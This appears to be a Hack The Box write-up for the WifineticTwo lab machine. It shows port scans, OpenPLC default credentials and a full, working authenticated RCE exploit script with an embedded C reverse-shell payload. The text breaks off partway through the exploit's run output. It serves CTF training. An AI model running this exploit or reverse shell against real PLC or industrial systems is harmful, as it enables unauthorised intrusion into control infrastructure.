




## Summary

The box starts with enumeration on port `8080/TCP` which runs `OpenPLC`. For the application a working `Proof of Concept Exploit` exists. With a small `modification` of the exploit to point to an already existing `blank_program.st` a reverse shell can be obtained. After enumerating the available `interfaces` hinted by the machines theme a available `WPS` configuration can be spotted. Attacking the `WPS` configuration with an `PixiDust` implementation like `OneShot` reveals its `Pre-Shared Key`. With the `key` in hand the box requires to setup a `wireless network` using `wpa_supplicant`. After checking the assigned `IP address` using `dhclient` and a working `traffic forwarder` using `Ligolo-ng` the dashboard of `OpenWRT` can be accessed by using `root:root`. As last step the box can be rooted by adding a `SSH Key` for access and login via the `management interface` on `192.168.1.1`.

## Table of Contents

- [Reconnaissance](#reconnaissance)
  - [Port Scanning](#port-scanning)
  - [Enumeration of Port 8080/TCP](#enumeration-of-port-8080tcp)
- [OpenPLC](#openplc)
- [Foothold](#foothold)
- [Stabilizing Shell](#stabilizing-shell)
- [user.txt](#usertxt)
- [Enumeration](#enumeration)
- [PixiDust WPS Attack](#pixidust-wps-attack)
- [Gaining Network Access](#gaining-network-access)
- [Port Forwarding](#port-forwarding)
- [Enumeration of the Wi-Fi Network](#enumeration-of-the-wi-fi-network)
- [Privilege Escalation](#privilege-escalation)
- [root.txt](#roottxt)

## Reconnaissance

### Port Scanning

As usual I started with different `port scans` like the `common ports`, `all ports` and a scan for `UDP` to save time.

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.226.128
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-16 15:12 EDT
Nmap scan report for 10.129.226.128
Host is up (0.018s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
8080/tcp open  http-proxy Werkzeug/1.0.1 Python/2.7.18
| http-title: Site doesn't have a title (text/html; charset=utf-8).
|_Requested resource was http://10.129.226.128:8080/login
|_http-server-header: Werkzeug/1.0.1 Python/2.7.18
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     content-type: text/html; charset=utf-8
|     content-length: 232
|     vary: Cookie
|     set-cookie: session=eyJfcGVybWFuZW50Ijp0cnVlfQ.ZfXvOg.eTwwv2OvfMWQgPdfp6ehWP_CYoQ; Expires=Sat, 16-Mar-2024 19:17:58 GMT; HttpOnly; Path=/
|     server: Werkzeug/1.0.1 Python/2.7.18
|     date: Sat, 16 Mar 2024 19:12:58 GMT
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 302 FOUND
|     content-type: text/html; charset=utf-8
|     content-length: 219
|     location: http://0.0.0.0:8080/login
|     vary: Cookie
|     set-cookie: session=eyJfZnJlc2giOmZhbHNlLCJfcGVybWFuZW50Ijp0cnVlfQ.ZfXvOg.x7k2IPv5RSipshhzYYDUb6oOA5c; Expires=Sat, 16-Mar-2024 19:17:58 GMT; HttpOnly; Path=/
|     server: Werkzeug/1.0.1 Python/2.7.18
|     date: Sat, 16 Mar 2024 19:12:58 GMT
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>Redirecting...</title>
|     <h1>Redirecting...</h1>
|     <p>You should be redirected automatically to target URL: <a href="/login">/login</a>. If not click the link.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     content-type: text/html; charset=utf-8
|     allow: HEAD, OPTIONS, GET
|     vary: Cookie
|     set-cookie: session=eyJfcGVybWFuZW50Ijp0cnVlfQ.ZfXvOg.eTwwv2OvfMWQgPdfp6ehWP_CYoQ; Expires=Sat, 16-Mar-2024 19:17:58 GMT; HttpOnly; Path=/
|     content-length: 0
|     server: Werkzeug/1.0.1 Python/2.7.18
|     date: Sat, 16 Mar 2024 19:12:58 GMT
|   RTSPRequest: 
|     HTTP/1.1 400 Bad request
|     content-length: 90
|     cache-control: no-cache
|     content-type: text/html
|     connection: close
|     <html><body><h1>400 Bad request</h1>
|     Your browser sent an invalid request.
|_    </body></html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.94SVN%I=7%D=3/16%Time=65F5EF3B%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,24C,"HTTP/1\.0\x20302\x20FOUND\r\ncontent-type:\x20text/htm
SF:l;\x20charset=utf-8\r\ncontent-length:\x20219\r\nlocation:\x20http://0\
SF:.0\.0\.0:8080/login\r\nvary:\x20Cookie\r\nset-cookie:\x20session=eyJfZn
SF:Jlc2giOmZhbHNlLCJfcGVybWFuZW50Ijp0cnVlfQ\.ZfXvOg\.x7k2IPv5RSipshhzYYDUb
SF:6oOA5c;\x20Expires=Sat,\x2016-Mar-2024\x2019:17:58\x20GMT;\x20HttpOnly;
SF:\x20Path=/\r\nserver:\x20Werkzeug/1\.0\.1\x20Python/2\.7\.18\r\ndate:\x
SF:20Sat,\x2016\x20Mar\x202024\x2019:12:58\x20GMT\r\n\r\n<!DOCTYPE\x20HTML
SF:\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x203\.2\x20Final//EN\">\n<title>Red
SF:irecting\.\.\.</title>\n<h1>Redirecting\.\.\.</h1>\n<p>You\x20should\x2
SF:0be\x20redirected\x20automatically\x20to\x20target\x20URL:\x20<a\x20hre
SF:f=\"/login\">/login</a>\.\x20\x20If\x20not\x20click\x20the\x20link\.")%
SF:r(HTTPOptions,14E,"HTTP/1\.0\x20200\x20OK\r\ncontent-type:\x20text/html
SF:;\x20charset=utf-8\r\nallow:\x20HEAD,\x20OPTIONS,\x20GET\r\nvary:\x20Co
SF:okie\r\nset-cookie:\x20session=eyJfcGVybWFuZW50Ijp0cnVlfQ\.ZfXvOg\.eTww
SF:v2OvfMWQgPdfp6ehWP_CYoQ;\x20Expires=Sat,\x2016-Mar-2024\x2019:17:58\x20
SF:GMT;\x20HttpOnly;\x20Path=/\r\ncontent-length:\x200\r\nserver:\x20Werkz
SF:eug/1\.0\.1\x20Python/2\.7\.18\r\ndate:\x20Sat,\x2016\x20Mar\x202024\x2
SF:019:12:58\x20GMT\r\n\r\n")%r(RTSPRequest,CF,"HTTP/1\.1\x20400\x20Bad\x2
SF:0request\r\ncontent-length:\x2090\r\ncache-control:\x20no-cache\r\ncont
SF:ent-type:\x20text/html\r\nconnection:\x20close\r\n\r\n<html><body><h1>4
SF:00\x20Bad\x20request</h1>\nYour\x20browser\x20sent\x20an\x20invalid\x20
SF:request\.\n</body></html>\n")%r(FourOhFourRequest,224,"HTTP/1\.0\x20404
SF:\x20NOT\x20FOUND\r\ncontent-type:\x20text/html;\x20charset=utf-8\r\ncon
SF:tent-length:\x20232\r\nvary:\x20Cookie\r\nset-cookie:\x20session=eyJfcG
SF:VybWFuZW50Ijp0cnVlfQ\.ZfXvOg\.eTwwv2OvfMWQgPdfp6ehWP_CYoQ;\x20Expires=S
SF:at,\x2016-Mar-2024\x2019:17:58\x20GMT;\x20HttpOnly;\x20Path=/\r\nserver
SF::\x20Werkzeug/1\.0\.1\x20Python/2\.7\.18\r\ndate:\x20Sat,\x2016\x20Mar\
SF:x202024\x2019:12:58\x20GMT\r\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W
SF:3C//DTD\x20HTML\x203\.2\x20Final//EN\">\n<title>404\x20Not\x20Found</ti
SF:tle>\n<h1>Not\x20Found</h1>\n<p>The\x20requested\x20URL\x20was\x20not\x
SF:20found\x20on\x20the\x20server\.\x20If\x20you\x20entered\x20the\x20URL\
SF:x20manually\x20please\x20check\x20your\x20spelling\x20and\x20try\x20aga
SF:in\.</p>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.83 seconds
```

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -p- 10.129.226.128
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-16 15:18 EDT
Nmap scan report for 10.129.226.128
Host is up (0.021s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
8080/tcp open  http-proxy Werkzeug/1.0.1 Python/2.7.18
|_http-server-header: Werkzeug/1.0.1 Python/2.7.18
| http-title: Site doesn't have a title (text/html; charset=utf-8).
|_Requested resource was http://10.129.226.128:8080/login
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     content-type: text/html; charset=utf-8
|     content-length: 232
|     vary: Cookie
|     set-cookie: session=eyJfcGVybWFuZW50Ijp0cnVlfQ.ZfXwmw.qlGqaGMW3AzDELDc8JpF77tQmGM; Expires=Sat, 16-Mar-2024 19:23:51 GMT; HttpOnly; Path=/
|     server: Werkzeug/1.0.1 Python/2.7.18
|     date: Sat, 16 Mar 2024 19:18:51 GMT
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 302 FOUND
|     content-type: text/html; charset=utf-8
|     content-length: 219
|     location: http://0.0.0.0:8080/login
|     vary: Cookie
|     set-cookie: session=eyJfZnJlc2giOmZhbHNlLCJfcGVybWFuZW50Ijp0cnVlfQ.ZfXwmw.d75AzIYvAoEcPGIHOtGry0bhd6w; Expires=Sat, 16-Mar-2024 19:23:51 GMT; HttpOnly; Path=/
|     server: Werkzeug/1.0.1 Python/2.7.18
|     date: Sat, 16 Mar 2024 19:18:51 GMT
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>Redirecting...</title>
|     <h1>Redirecting...</h1>
|     <p>You should be redirected automatically to target URL: <a href="/login">/login</a>. If not click the link.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     content-type: text/html; charset=utf-8
|     allow: HEAD, OPTIONS, GET
|     vary: Cookie
|     set-cookie: session=eyJfcGVybWFuZW50Ijp0cnVlfQ.ZfXwmw.qlGqaGMW3AzDELDc8JpF77tQmGM; Expires=Sat, 16-Mar-2024 19:23:51 GMT; HttpOnly; Path=/
|     content-length: 0
|     server: Werkzeug/1.0.1 Python/2.7.18
|     date: Sat, 16 Mar 2024 19:18:51 GMT
|   RTSPRequest: 
|     HTTP/1.1 400 Bad request
|     content-length: 90
|     cache-control: no-cache
|     content-type: text/html
|     connection: close
|     <html><body><h1>400 Bad request</h1>
|     Your browser sent an invalid request.
|_    </body></html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.94SVN%I=7%D=3/16%Time=65F5F09F%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,24C,"HTTP/1\.0\x20302\x20FOUND\r\ncontent-type:\x20text/htm
SF:l;\x20charset=utf-8\r\ncontent-length:\x20219\r\nlocation:\x20http://0\
SF:.0\.0\.0:8080/login\r\nvary:\x20Cookie\r\nset-cookie:\x20session=eyJfZn
SF:Jlc2giOmZhbHNlLCJfcGVybWFuZW50Ijp0cnVlfQ\.ZfXwmw\.d75AzIYvAoEcPGIHOtGry
SF:0bhd6w;\x20Expires=Sat,\x2016-Mar-2024\x2019:23:51\x20GMT;\x20HttpOnly;
SF:\x20Path=/\r\nserver:\x20Werkzeug/1\.0\.1\x20Python/2\.7\.18\r\ndate:\x
SF:20Sat,\x2016\x20Mar\x202024\x2019:18:51\x20GMT\r\n\r\n<!DOCTYPE\x20HTML
SF:\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x203\.2\x20Final//EN\">\n<title>Red
SF:irecting\.\.\.</title>\n<h1>Redirecting\.\.\.</h1>\n<p>You\x20should\x2
SF:0be\x20redirected\x20automatically\x20to\x20target\x20URL:\x20<a\x20hre
SF:f=\"/login\">/login</a>\.\x20\x20If\x20not\x20click\x20the\x20link\.")%
SF:r(HTTPOptions,14E,"HTTP/1\.0\x20200\x20OK\r\ncontent-type:\x20text/html
SF:;\x20charset=utf-8\r\nallow:\x20HEAD,\x20OPTIONS,\x20GET\r\nvary:\x20Co
SF:okie\r\nset-cookie:\x20session=eyJfcGVybWFuZW50Ijp0cnVlfQ\.ZfXwmw\.qlGq
SF:aGMW3AzDELDc8JpF77tQmGM;\x20Expires=Sat,\x2016-Mar-2024\x2019:23:51\x20
SF:GMT;\x20HttpOnly;\x20Path=/\r\ncontent-length:\x200\r\nserver:\x20Werkz
SF:eug/1\.0\.1\x20Python/2\.7\.18\r\ndate:\x20Sat,\x2016\x20Mar\x202024\x2
SF:019:18:51\x20GMT\r\n\r\n")%r(RTSPRequest,CF,"HTTP/1\.1\x20400\x20Bad\x2
SF:0request\r\ncontent-length:\x2090\r\ncache-control:\x20no-cache\r\ncont
SF:ent-type:\x20text/html\r\nconnection:\x20close\r\n\r\n<html><body><h1>4
SF:00\x20Bad\x20request</h1>\nYour\x20browser\x20sent\x20an\x20invalid\x20
SF:request\.\n</body></html>\n")%r(FourOhFourRequest,224,"HTTP/1\.0\x20404
SF:\x20NOT\x20FOUND\r\ncontent-type:\x20text/html;\x20charset=utf-8\r\ncon
SF:tent-length:\x20232\r\nvary:\x20Cookie\r\nset-cookie:\x20session=eyJfcG
SF:VybWFuZW50Ijp0cnVlfQ\.ZfXwmw\.qlGqaGMW3AzDELDc8JpF77tQmGM;\x20Expires=S
SF:at,\x2016-Mar-2024\x2019:23:51\x20GMT;\x20HttpOnly;\x20Path=/\r\nserver
SF::\x20Werkzeug/1\.0\.1\x20Python/2\.7\.18\r\ndate:\x20Sat,\x2016\x20Mar\
SF:x202024\x2019:18:51\x20GMT\r\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W
SF:3C//DTD\x20HTML\x203\.2\x20Final//EN\">\n<title>404\x20Not\x20Found</ti
SF:tle>\n<h1>Not\x20Found</h1>\n<p>The\x20requested\x20URL\x20was\x20not\x
SF:20found\x20on\x20the\x20server\.\x20If\x20you\x20entered\x20the\x20URL\
SF:x20manually\x20please\x20check\x20your\x20spelling\x20and\x20try\x20aga
SF:in\.</p>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.29 seconds
```

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -sU 10.129.226.128
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-16 15:24 EDT
Nmap scan report for 10.129.40.141
Host is up (2.3s latency).
Not shown: 683 closed udp ports (port-unreach), 312 filtered udp ports (host-unreach)
PORT      STATE         SERVICE  VERSION
407/udp   open|filtered timbuktu
8000/udp  open|filtered irdmi
19647/udp open|filtered unknown
38615/udp open|filtered unknown
47808/udp open|filtered bacnet

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1291.29 seconds
```

### Enumeration of Port 8080/TCP

On port `8080/TCP` we found a login page of `OpenPLC`.

- [http://10.129.226.128:8080/login](http://10.129.226.128:8080/login)

```c
┌──(kali㉿kali)-[~]
└─$ whatweb http://10.129.226.128:8080      
http://10.129.226.128:8080 [302 Found] Cookies[session], Country[RESERVED][ZZ], HTTPServer[Werkzeug/1.0.1 Python/2.7.18], HttpOnly[session], IP[10.129.226.128], Python[2.7.18], RedirectLocation[http://10.129.226.128:8080/login], Title[Redirecting...], Werkzeug[1.0.1]
http://10.129.226.128:8080/login [200 OK] Cookies[session], Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/1.0.1 Python/2.7.18], HttpOnly[session], IP[10.129.226.128], PasswordField[password], Python[2.7.18], Werkzeug[1.0.1]
```

## OpenPLC

The `dashboard` could be accessed using `default credentials`.

- [https://autonomylogic.com/docs/2-1-openplc-runtime-overview/](https://autonomylogic.com/docs/2-1-openplc-runtime-overview/)


| Username | Password |
| -------- | -------- |
| openplc  | openplc  |



## Foothold

From there on we found `two ways` to gain `Authenticated Remote Code Execution` based on the following exploit.

- [https://www.exploit-db.com/exploits/49803](https://www.exploit-db.com/exploits/49803)

The example which worked for me required to `fix` the `exploit` to point it the already existing `blank_program.st` file which could be found within the `Programs` tab and a special shout out to our new member `mk0` for fixing it! Great job, well done!

```c
host = options.url
login = options.url + '/login' 
upload_program = options.url + '/programs'
compile_program = options.url + '/compile-program?file=blank_program.st' 
run_plc_server = options.url + '/start_plc'
user = options.user
password = options.passw
rev_ip = options.rip
rev_port = options.rport
x = requests.Session()
```

Below is the fixed version of the exploit.

```c
# Exploit Title: OpenPLC 3 - Remote Code Execution (Authenticated)
# Date: 25/04/2021
# Exploit Author: Fellipe Oliveira
# Vendor Homepage: https://www.openplcproject.com/
# Software Link: https://github.com/thiagoralves/OpenPLC_v3
# Version: OpenPLC v3
# Tested on: Ubuntu 16.04,Debian 9,Debian 10 Buster

#/usr/bin/python3

import requests
import sys
import time
import optparse
import re

parser = optparse.OptionParser()
parser.add_option('-u', '--url', action="store", dest="url", help="Base target uri (ex. http://target-uri:8080)")
parser.add_option('-l', '--user', action="store", dest="user", help="User credential to login")
parser.add_option('-p', '--passw', action="store", dest="passw", help="Pass credential to login")
parser.add_option('-i', '--rip', action="store", dest="rip", help="IP for Reverse Connection")
parser.add_option('-r', '--rport', action="store", dest="rport", help="Port for Reverse Connection")

options, args = parser.parse_args()
if not options.url:
    print('[+] Remote Code Execution on OpenPLC_v3 WebServer')
    print('[+] Specify an url target')
    print("[+] Example usage: exploit.py -u http://target-uri:8080 -l admin -p admin -i 192.168.1.54 -r 4444")
    exit()

host = options.url
login = options.url + '/login' 
upload_program = options.url + '/programs'
compile_program = options.url + '/compile-program?file=blank_program.st' 
run_plc_server = options.url + '/start_plc'
user = options.user
password = options.passw
rev_ip = options.rip
rev_port = options.rport
x = requests.Session()

def auth():
    print('[+] Remote Code Execution on OpenPLC_v3 WebServer')
    time.sleep(1)
    print('[+] Checking if host '+host+' is Up...')
    host_up = x.get(host)
    try:
        if host_up.status_code == 200:
            print('[+] Host Up! ...')
    except:
        print('[+] This host seems to be down :( ')
        sys.exit(0)

    print('[+] Trying to authenticate with credentials '+user+':'+password+'') 
    time.sleep(1)   
    submit = {
        'username': user,
        'password': password
    }
    x.post(login, data=submit)
    response = x.get(upload_program)
            
    if len(response.text) > 30000 and response.status_code == 200:
        print('[+] Login success!')
        time.sleep(1)
    else:
        print('[x] Login failed :(')
        sys.exit(0)  

def injection():
    print('[+] PLC program uploading... ')
    upload_url = host + "/upload-program" 
    upload_cookies = {"session": ".eJw9z7FuwjAUheFXqTx3CE5YInVI5RQR6V4rlSPrekEFXIKJ0yiASi7i3Zt26HamT-e_i83n6M-tyC_j1T-LzXEv8rt42opcIEOCCtgFysiWKZgic-otkK2XLr53zhQTylpiOC2cKTPkYt7NDSMlJJtv4NcO1Zq1wQhMqbYk9YokMSWgDgnK6qRXVevsbPC-1bZqicsJw2F2YeksTWiqANwkNFsQXdSKUlB16gIskMsbhF9_9yIe8_fBj_Gj9_3lv-Z69uNfkvgafD90O_H4ARVeT-s.YGvgPw.qwEcF3rMliGcTgQ4zI4RInBZrqE"}
    upload_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "multipart/form-data; boundary=---------------------------210749863411176965311768214500", "Origin": host, "Connection": "close", "Referer": host + "/programs", "Upgrade-Insecure-Requests": "1"} 
    upload_data = "-----------------------------210749863411176965311768214500\r\nContent-Disposition: form-data; name=\"file\"; filename=\"program.st\"\r\nContent-Type: application/vnd.sailingtracker.track\r\n\r\nPROGRAM prog0\n  VAR\n    var_in : BOOL;\n    var_out : BOOL;\n  END_VAR\n\n  var_out := var_in;\nEND_PROGRAM\n\n\nCONFIGURATION Config0\n\n  RESOURCE Res0 ON PLC\n    TASK Main(INTERVAL := T#50ms,PRIORITY := 0);\n    PROGRAM Inst0 WITH Main : prog0;\n  END_RESOURCE\nEND_CONFIGURATION\n\r\n-----------------------------210749863411176965311768214500\r\nContent-Disposition: form-data; name=\"submit\"\r\n\r\nUpload Program\r\n-----------------------------210749863411176965311768214500--\r\n"
    upload = x.post(upload_url, headers=upload_headers, cookies=upload_cookies, data=upload_data)

    act_url = host + "/upload-program-action"
    act_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "multipart/form-data; boundary=---------------------------374516738927889180582770224000", "Origin": host, "Connection": "close", "Referer": host + "/upload-program", "Upgrade-Insecure-Requests": "1"}
    act_data = "-----------------------------374516738927889180582770224000\r\nContent-Disposition: form-data; name=\"prog_name\"\r\n\r\nprogram.st\r\n-----------------------------374516738927889180582770224000\r\nContent-Disposition: form-data; name=\"prog_descr\"\r\n\r\n\r\n-----------------------------374516738927889180582770224000\r\nContent-Disposition: form-data; name=\"prog_file\"\r\n\r\n681871.st\r\n-----------------------------374516738927889180582770224000\r\nContent-Disposition: form-data; name=\"epoch_time\"\r\n\r\n1617682656\r\n-----------------------------374516738927889180582770224000--\r\n"
    upload_act = x.post(act_url, headers=act_headers, data=act_data)
    time.sleep(2)

def connection():
    print('[+] Attempt to Code injection...')
    inject_url = host + "/hardware"
    inject_dash = host + "/dashboard"
    inject_cookies = {"session": ".eJw9z7FuwjAUheFXqTx3CE5YInVI5RQR6V4rlSPrekEFXIKJ0yiASi7i3Zt26HamT-e_i83n6M-tyC_j1T-LzXEv8rt42opcIEOCCtgFysiWKZgic-otkK2XLr53zhQTylpiOC2cKTPkYt7NDSMlJJtv4NcO1Zq1wQhMqbYk9YokMSWgDgnK6qRXVevsbPC-1bZqicsJw2F2YeksTWiqANwkNFsQXdSKUlB16gIskMsbhF9_9yIe8_fBj_Gj9_3lv-Z69uNfkvgafD90O_H4ARVeT-s.YGvyFA.2NQ7ZYcNZ74ci2miLkefHCai2Fk"}
    inject_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "multipart/form-data; boundary=---------------------------289530314119386812901408558722", "Origin": host, "Connection": "close", "Referer": host + "/hardware", "Upgrade-Insecure-Requests": "1"}
    inject_data = "-----------------------------289530314119386812901408558722\r\nContent-Disposition: form-data; name=\"hardware_layer\"\r\n\r\nblank_linux\r\n-----------------------------289530314119386812901408558722\r\nContent-Disposition: form-data; name=\"custom_layer_code\"\r\n\r\n#include \"ladder.h\"\r\n#include <stdio.h>\r\n#include <sys/socket.h>\r\n#include <sys/types.h>\r\n#include <stdlib.h>\r\n#include <unistd.h>\r\n#include <netinet/in.h>\r\n#include <arpa/inet.h>\r\n\r\n\r\n//-----------------------------------------------------------------------------\r\n\r\n//-----------------------------------------------------------------------------\r\nint ignored_bool_inputs[] = {-1};\r\nint ignored_bool_outputs[] = {-1};\r\nint ignored_int_inputs[] = {-1};\r\nint ignored_int_outputs[] = {-1};\r\n\r\n//-----------------------------------------------------------------------------\r\n\r\n//-----------------------------------------------------------------------------\r\nvoid initCustomLayer()\r\n{\r\n   \r\n    \r\n    \r\n}\r\n\r\n\r\nvoid updateCustomIn()\r\n{\r\n\r\n}\r\n\r\n\r\nvoid updateCustomOut()\r\n{\r\n    int port = "+rev_port+";\r\n    struct sockaddr_in revsockaddr;\r\n\r\n    int sockt = socket(AF_INET, SOCK_STREAM, 0);\r\n    revsockaddr.sin_family = AF_INET;       \r\n    revsockaddr.sin_port = htons(port);\r\n    revsockaddr.sin_addr.s_addr = inet_addr(\""+rev_ip+"\");\r\n\r\n    connect(sockt, (struct sockaddr *) &revsockaddr, \r\n    sizeof(revsockaddr));\r\n    dup2(sockt, 0);\r\n    dup2(sockt, 1);\r\n    dup2(sockt, 2);\r\n\r\n    char * const argv[] = {\"/bin/sh\", NULL};\r\n    execve(\"/bin/sh\", argv, NULL);\r\n\r\n    return 0;  \r\n    \r\n}\r\n\r\n\r\n\r\n\r\n\r\n\r\n-----------------------------289530314119386812901408558722--\r\n"
    inject = x.post(inject_url, headers=inject_headers, cookies=inject_cookies, data=inject_data)
    time.sleep(3)
    comp = x.get(compile_program)
    time.sleep(6)
    x.get(inject_dash)
    time.sleep(3)
    print('[+] Spawning Reverse Shell...')
    start = x.get(run_plc_server)
    time.sleep(1)
    if start.status_code == 200:
        print('[+] Reverse connection receveid!') 
        sys.exit(0)
    else:
        print('[+] Failed to receive connection :(')
        sys.exit(0)

auth()
injection()
connection()
```

A few seconds after executing we got a callback.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/WifineticTwo/files]
└─$ python rce.py -u http://10.129.226.128:8080 -l openplc -p openplc -i 10.10.14.139 -r 4444
[+] Remote Code Execution on OpenPLC_v3 WebServer
[+] Checking if host http://10.129.226.128:8080 is Up...
[+] Host Up! ...
[+] Trying to authenticate with credentials openplc:openplc
[+] Login success!
[+] PLC program uploading... 
[+] Attempt to Code injection...
